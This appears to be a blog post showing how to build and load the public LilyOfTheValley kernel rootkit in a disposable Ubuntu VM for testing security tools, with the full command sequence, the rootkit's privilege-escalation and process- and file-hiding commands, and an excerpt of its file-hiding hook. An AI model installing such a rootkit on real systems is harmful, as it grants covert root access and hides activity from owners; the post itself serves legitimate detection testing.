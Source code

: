 ```yaml
---
layout: post
title: Install a Linux Rootkit to Test Security Systems With
categories:

---
```


# {{ page.title }}

Let's say you wnat to install a rootkit to test with. There could be various reasons, maybe you are testing some kind of specialized security system. Regardless of the reason, you need a rootkit to test out. 

The first place I ended up at is [Awesome Rootkits](https://github.com/milabs/awesome-linux-rootkits), a big list of rootkits.

The one that I picked from that list, somewhat randomly, was [LilyOfTheValley](https://github.com/En14c/LilyOfTheValley). I have no good reason as to why I picked this particular one, other than it seemed to suggest it would work on several kernel versions, and was a small amount of code.

## WARNING

Obviously this is a rootkit. Don't install it on your local machine. Get a temporary, disposable virtual machine. 

## Install

The kernel version in this example is 4.4.0-22 on Ubuntu 16.04.

```
# uname -a
Linux old-kernely 4.4.0-22-generic #40-Ubuntu SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Clone the repo.

```
# git clone https://github.com/En14c/LilyOfTheValley
# cd LilyOfTheValley
```

Install build-essential.

```
# apt install build-essential -y
```

Get headers too.

```
# apt install linux-headers-4.4.0-22-generic
```

Make.

```
# make
make -C /lib/modules/4.4.0-22-generic/build M=/root/LilyOfTheValley modules
make[1]: Entering directory '/usr/src/linux-headers-4.4.0-22-generic'
  CC [M]  /root/LilyOfTheValley/lilyofthevalley.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/LilyOfTheValley/lilyofthevalley.mod.o
  LD [M]  /root/LilyOfTheValley/lilyofthevalley.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.4.0-22-generic'
```

Now there is a kernel module, lilyofthevalley.ko.

```
# ls -1
client.c
lilyofthevalley.c
lilyofthevalley.ko
lilyofthevalley.mod.c
lilyofthevalley.mod.o
lilyofthevalley.o
Makefile
modules.order
Module.symvers
README.md
```

Install that module.

```
# insmod lilyofthevalley.ko 
```

Once it's loaded /proc can be used to find commands that can be sent to the module.

```
# cat /proc/lilyofthevalleyr00tkit 
###########################
LilyOfTheValley Commands
###########################

	* [givemerootprivileges] -->> to gain root access
	* [hidepidPID] -->> to hide a given pid. replace (PID) with target pid
	* [unhidepidPID] -->> to unhide a given pid. replace (PID) with target pid
	* [hidingfiles] -->> just prepend lilyofthevalley to the file or dir name that u want to hide
```

Also, note how any files in the directory that started with the string "lilyofthevalley" now no longer appear in ls.

```
# ls -1
client.c
Makefile
modules.order
Module.symvers
README.md
```

This is because the rootkit removes those files.

See line 409 of lilyofthevalley.c.

```
	/*
	hide any file in  the root filesystem, 
	if first chars of it's name == r00tkit_name
	*/
	if (strncmp(name,R00TKIT_NAME,R00TKIT_NAMELEN) == 0)
		return 0;

return org_rootfs_filldir(_buf,name,namelen,offset,ino,d_type);
```

Create a file that starts with that particular string. Note how it's not visible in ls.

```
# touch lilyofthevalley.txt
# ls
client.c  Makefile  modules.order  Module.symvers  README.md
```

After rebooting the node the kernel module is no longer loaded and the missing files are again visible..

```
# ls -1
client.c
lilyofthevalley.c
lilyofthevalley.ko
lilyofthevalley.mod.c
lilyofthevalley.mod.o
lilyofthevalley.o
lilyofthevalley.txt
Makefile
modules.order
Module.symvers
README.md
```

With the module in place secuirty systems can be tested to see if they can find it.

